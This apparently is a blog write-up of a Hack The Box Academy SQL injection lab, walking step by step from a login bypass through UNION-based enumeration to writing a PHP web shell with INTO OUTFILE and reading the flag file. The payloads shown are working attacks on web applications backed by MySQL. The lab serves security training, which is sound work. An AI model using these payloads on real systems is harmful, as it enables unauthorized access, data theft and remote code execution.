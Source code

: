```yaml
---
layout: post
title:  "Hack The Box - Academy - SQL Injection Fundamentals"
date:   2024-10-03 20:25
image:  /images/htb/sql-injection/logo.png
tags:   [sqli]
categories: [htbacademy]
---
```


><b>Overview:</b>
 Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
<br/>
<a href="https://academy.hackthebox.com/module/33/section/193">Introduction to SQL Injection</a>

<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/33/section/177">SQL Injection Fundamentals</a><br/>
<a href="https://jacozwarts.github.io/images/htb/sql-injection/Sql_Injection_Fundamentals_Module_Cheat_Sheet.pdf">SQL Injection - Cheat Sheet</a>
<br/>


## Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

#### 1. Bypassing the Login Page with SQL Injection
Begin by visiting the web application's login page. To bypass authentication, input the following SQL injection payload in the username field:
```
' OR 1=1 -- -
```
![Login Page](/images/htb/sql-injection//login.png)
This payload effectively bypasses the login check, granting us access to the application without valid credentials.

#### 2. Testing for SQL Injection in the Search Bar
After logging in, navigate to the Payroll information section and locate the search bar. We can test for SQL injection vulnerabilities by submitting the following payload:
![Payroll Information page](/images/htb/sql-injection/payroll_info_table.png)
```
' ORDER BY 1 -- -
```
![Test for SQL Injection](/images/htb/sql-injection/orderby_test.png)
If the page loads successfully without errors, it suggests the search bar is vulnerable to SQL injection. Now, we’ll proceed to determine the number of columns in the underlying query.

#### 3. Determining the Column Count
To identify the column count for the SQL query, increment the ORDER BY number until an error is returned. When an error occurs, reduce the count by one—this gives you the number of columns in the query.
![Column Count](/images/htb/sql-injection/orderby6.png)
![Column Count](/images/htb/sql-injection/orderby6-result.png)
#### 4. Identifying the Current User
With knowledge of the column count, we can perform an In-Band Union-Based SQL injection to retrieve key information, such as the current user:
```
' UNION SELECT 1,2,user(),3,4 -- -
```
![Current User](/images/htb/sql-injection/currentuser.png)

#### 5. Checking User Privileges
To explore the privileges granted to the current user, use the following query:
```
' UNION SELECT 1, grantee, privilege_type,is_grantable,3 FROM information_schema.user_privileges
WHERE grantee="'root'@'localhost'"-- -
```
![User Privileges](/images/htb/sql-injection/user_privileges.png)
If the user has file permissions, we can proceed with attempting file operations.

#### 6. Accessing MySQL Directories
Next, check the directories accessible through MySQL by querying the secure_file_priv variable:
```
' UNION SELECT 1, variable_name, variable_value, 4,5
FROM information_schema.global_variables where
variable_name="secure_file_priv"-- -
```
![Secure File Priv](/images/htb/sql-injection/mysql_directory_access.png)

If the `SECURE_FILE_PRIV` value is empty, it indicates that file read/write operations can be performed anywhere on the system.

#### 7. Writing a Web Shell to the Server
We’ll now attempt to write a web shell to the server. Initially, try writing the shell to the default web directory:

![Webshell writing failed](/images/htb/sql-injection/write_permission_denied.png)
```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/shell.php'-- -
```
If permission is denied, update the file path to target a different directory, such as the dashboard directory (Payroll Information URL is /dashboard/dashboard.php):

```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```
#### 8. Testing the Web Shell
Once the web shell is successfully written, test it by navigating to the URL:
![Testing web shell](/images/htb/sql-injection/webshell-executed.png)
```
{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=ls
```
This command list all files in the directory, confirming that the web shell is working.

#### 9. Retrieving the Flag
Enumerate the directories to locate the flag. Once found, use the cat command to display its contents:
```
http://83.136.251.168:46575/dashboard/shell.php?0=cat%20../../../../flag_cae1dadcd174.txt
```
![Flag result](/images/htb/sql-injection/flag_result.png)
Submit the contents of the flag as the answer to complete the challenge.
<hr/>